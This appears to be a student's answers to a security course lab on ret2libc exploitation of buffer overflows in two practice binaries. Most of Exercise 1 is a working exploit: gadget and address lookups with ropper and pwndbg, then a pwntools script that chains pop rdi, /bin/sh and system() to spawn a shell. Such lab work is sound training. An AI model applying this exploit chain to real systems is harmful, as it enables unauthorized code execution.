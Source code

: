 # Laborator 3

### [Q1]: Where are these hundreds of functions?
### Solution to [Q1]:
The functions are here: `/usr/lib/x86_64-linux-gnu/libc.so.6` and the dynamic linker loads these functions into my program's virtual memory. If ASLR is enabled the address of the libc will vary between runs.

## Exercise 1

### [Q2]: Explore the program. What does it do? Where is the vulnerability?
### Solution to [Q2]:
The program checks if a passenger is booked on a specific airline.  The vulnerability lies in the buffer overflow risk when reading the `char name[64];` input in `check_booking()`. The `scanf("%s", name)` call does not limit input length, allowing users to overflow the `name` buffer.

### [Q3]: How does ret2libc fit into this? What are some nice libc functions for exploitation?
### Solution to [Q3]:
We can overwrite the return address to a libc function like `system()` or `exit()`.passing a crafted argument (`/bin/sh`).

### [Q4]: Can we get a shell with this program? How?
### Solution to [Q4]:
We pass the `system()` function the `/bin/sh` argument.

## Solution to Exercise 1: 
Find address of `pop rdi; ret` gadget:
```c
ropper --file ./bin/ex1 --search "pop rdi"
```

Find address of `/bin/sh`:
```c
pwndbg> search -t string "/bin/sh"
Searching for string: b'/bin/sh\x00'
libc.so.6       0x7ffff7f7042f 0x68732f6e69622f /* '/bin/sh' */
```

Find address of `ret` gadget:
```c
ropper --file ./bin/ex1 --search "ret"
```

Find address of `system()`:
```c
pwndbg> p system
$1 = {int (const char *)} 0x7ffff7dfd740 <__libc_system>
```

```python
#!/usr/bin/env python3
from pwn import *

p = process('./bin/ex1')

p.recvuntil('Select an airline:\n')
p.sendline('0')
p.recvuntil('Please input your name to check your booking:\n')

libc_base = 0x00007ffff7da5000
pop_rdi = libc_base + 0x10f75b
system = libc_base + 0x58740
binsh = libc_base + 0x1cb42f

ret = libc_base + 0x2882f

padding = 344

payload = b'A' * padding + p64(pop_rdi) + p64(binsh) + p64(ret) + p64(system)

p.sendline(payload)
p.interactive()
```

## Exercise 2
### [Q5]: Explore the program. What does it do? Where is the vulnerability?
### Solution to [Q5]:
The program reads user input into a 256-byte buffer `souldream`, then copies it into a smaller 64-byte buffer `bad_nightmare` using `memcpy` without proper bounds checking. This causes a buffer overflow in the `nightmare()` function because it copies 256 bytes into a buffer that can only hold 64 bytes.